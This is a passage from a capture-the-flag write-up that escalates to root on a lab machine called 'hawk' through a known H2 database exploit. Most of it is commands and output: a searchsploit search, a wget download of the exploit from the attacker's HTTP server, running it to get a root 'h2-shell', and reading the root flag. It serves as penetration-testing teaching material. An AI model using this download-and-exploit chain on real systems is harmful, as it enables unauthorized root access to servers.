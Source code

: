 ``` 
Windows/x64 - Bind (2493/TCP) Shell + Password (h271508F) Shellcode (825 bytes)                                              | shellcodes/windows_x86-64/40981.c
----------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Papers: No Result

```

We have a code execution vulnerability with an exact match for our
version. use the `-m` flag to mirror the script to our current working
directory:

``` 
root@kali: searchsploit -m exploits/java/webapps/45506.py
```

Now its time to take a look at the exploit and see how to use it and if
it requires any changes for our environment:

``` 
root@kali: python3 45506.py                            
usage: 45506.py [-h] -H 127.0.0.1:8082 [-d jdbc:h2:~/emptydb-lPB71]
45506.py: error: the following arguments are required: -H/--host
```

We can see from the example output that it works with `python3` and that
it can be run against localhost (127.0.0.1) with the `-H` argument.

Using our friend `SimpleHTTPServer` it is easy to transfer the file to
the server and execute it:

``` 
root@kali: python -m SimpleHTTPServer

www-data@hawk: wget 10.10.14.2:8000/45506.py -O /tmp/45506.py
www-data@hawk: python3 /tmp/45506.py -H 127.0.0.1:8082
python3 45506.py -H 127.0.0.1:8082
[*] Attempting to create database
[+] Created database and logged in
[*] Sending stage 1
[+] Shell succeeded - ^c or quit to exit
h2-shell$ whoami
whoami
root
h2-shell$
```

The exploit worked and we have a root shel!.

We are currently in a `h2-shell` but have full command execution against
the server as the root user and can read the `root.txt`

``` 
h2-shell$ cat /root/root.txt
cat /root/root.txt
54f3e840fe556[REDACTED]
```
